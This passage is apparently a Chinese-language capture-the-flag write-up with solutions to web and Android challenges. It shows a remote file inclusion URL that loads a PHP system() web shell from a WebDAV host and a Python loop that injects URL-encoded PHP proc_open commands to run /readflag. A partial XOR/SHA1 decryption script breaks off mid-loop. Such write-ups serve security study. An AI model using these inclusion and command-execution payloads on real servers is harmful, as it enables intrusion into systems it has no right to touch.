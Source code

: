 ```
f1na1.php?file=//xxx.xxx.xxx.xxx//webdav/a.txt
```

```
a.txt
<?php system('dir');?>
```

回显里有一个ZmxhZ2ZsQGcxMjMxMjMxMjMxMjMxMjMxMjMxMjMxMjMxMjMxMjMxMjMxMjMxMjMxMjM.txt，直接访问得到flag





### 签 到 题| Author: blackwatch

ls /看到了flag 和readflag，然后看了可用的bash，有sh和ash，不知道ash有什么用，

/readflag返回`do you want the flag?` ，后来🐧说frk喜欢考察linux，或许是交互回复一个yes?找了一下可以交互的函数，找到了**proc_open**，查了下函数的用法，一开始用Yes没用，试了下y有回显，到最后出来一个式子，不知道可不可以用正则，刷新了一下发现有重复的算式，就跑个循环吧，构造如下exp，核心是`y\ny\n120\n`

```python
import requests
import time
url = ''
url += '?a=php%20-r%20%27$descriptors%20=%20array(0%20=%3E%20array(%22pipe%22,%20%22r%22),1%20=%3E%20array(%22pipe%22,%20%22w%22));$process%20=%20proc_open(%22/readflag%22,%20$descriptors,%20$pipes);echo%20fgets($pipes[1]);fwrite($pipes[0],%22y\ny\n120\n%22);fclose($pipes[0]);echo%20fgets($pipes[1]);echo%20fgets($pipes[1]);echo%20fgets($pipes[1]);echo%20fgets($pipes[1]);%27'

while 1:
    r = requests.get(url)
    print(r.text)
    if 'minil' in r.text:
        break
    time.sleep(1)#不用延时的话一直都是docker准备状态 ):
```

// Frank注: 你们为什么都这么喜欢暴力啊啊啊啊啊   怪我心软了给你们模了100

## ANDROID

安卓题要是纯考逆向还行，要是考到各种底层原理我就蒙蔽了...毕竟协会里面android逆向方面都是用爱发电，得靠自己钻研。

### TestOnly | Author: eqqie

#### 分析

是个java逆向，逻辑也很很简单，就是两个函数做了些异或之类的加密，把逻辑逆过来写脚本就行了，这里只有个写的很仓促的脚本

#### exp

```python
import hashlib

en_flag = b"U_\005SK`^\x00\021=fWP{\004iUSem7U\0270j\001(\007a\037"
table = b"B08020D0FACFDAF81DB46890E4040EDBB8613DA5ABF038F8B86BD44525D2E27B26E22ACD06388112D8467FD688C79CC7EA83F27440577350E8168C2560368616"
result = ""

hash_table = hashlib.sha1(table).digest()
print(hash_table)
de_table = b""

for i in range(len(hash_table)):
    bi = hash_table[i] & 0xFF
    if(bi<16):
        de_table += b"00"
    else:
```